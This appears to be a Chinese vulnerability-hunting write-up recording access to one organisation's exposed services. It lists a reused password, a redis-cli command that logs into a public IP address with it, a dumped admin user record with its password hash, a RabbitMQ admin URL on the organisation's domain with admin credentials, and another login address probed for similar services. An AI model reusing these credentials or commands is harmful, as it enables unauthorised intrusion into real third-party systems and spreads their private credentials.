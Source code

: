 ![image-20241014113429239](https://image.201068.xyz/assets/src挖掘/image-20241014113429239.png)

> wanfu@2022

### redis

```python
redis-cli -h 47.122.42.77 -p 16379
auth wanfu@2022

select 1
```

![image-20241014113858002](https://image.201068.xyz/assets/src挖掘/image-20241014113858002.png)

![image-20241014115042217](https://image.201068.xyz/assets/src挖掘/image-20241014115042217.png)

![image-20241014115229453](https://image.201068.xyz/assets/src挖掘/image-20241014115229453.png)

```python
{"@class":"org.springblade.system.user.entity.User","id":"1123598821738675201","createUser":"1123598821738675201","createDept":"1123598813738675201","createTime":["java.util.Date","2018-08-07 16:00:00"],"updateUser":"1123598821738675201","updateTime":["java.util.Date","2024-04-22 03:04:13"],"status":1,"isDeleted":0,"tenantId":"000000","code":null,"userType":4,"account":"wfadmin","password":"832d7e44525e458cba72c7b4f4b653db","name":"管理员","realName":"管理员","avatar":"https://gw.alipayobjects.com/zos/rmsportal/BiazfanxmamNRoxxVxka.png","email":"admin@bladex.vip","phone":"123333333333","birthday":["java.util.Date",1533657600000],"sex":1,"roleId":"1123598816738675201","deptId":"1727868458916507649","postId":"1123598817738675201"}
```

> "account":"wfadmin"
>
> "password":"832d7e44525e458cba72c7b4f4b653db"

![image-20241014115534337](https://image.201068.xyz/assets/src挖掘/image-20241014115534337.png)

### rabbitmq

http://zlmediakit.fjwanfu.com:30005/#/users

![image-20241014160458487](https://image.201068.xyz/assets/src挖掘/image-20241014160458487.png)

> admin
>
> wanfu@2022

![image-20241014160636517](https://image.201068.xyz/assets/src挖掘/image-20241014160636517.png)

### 相同服务探测

http://47.122.57.88:6969/login

![image-20241014104107903](https://image.201068.xyz/assets/src挖掘/image-20241014104107903.png)
